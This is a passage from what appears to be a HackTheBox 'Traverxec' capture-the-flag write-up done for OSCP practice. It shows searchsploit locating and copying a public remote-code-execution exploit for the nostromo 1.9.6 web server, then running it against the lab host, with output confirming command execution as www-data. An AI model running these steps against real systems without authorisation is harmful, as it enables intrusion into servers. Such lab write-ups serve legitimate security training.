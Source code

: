 # Exploitation

---

First, I copy the exploit:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ searchsploit nostromo 1.9.6   
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                              | multiple/remote/47837.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ searchsploit -m 47837.py                     
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/traverxec/47837.py  
                                                                                                                                                                                                                                             
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ ls 
47837.py
```

I had to comment one line out, you will find the correct line by yourself. Now, test the script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ python 47837.py traverxec.htb 80 id

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    

HTTP/1.1 200 OK
Date: Sun, 12 Sep 2021 12:32:42 GMT
Server: nostromo 1.9.6
Connection: close

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
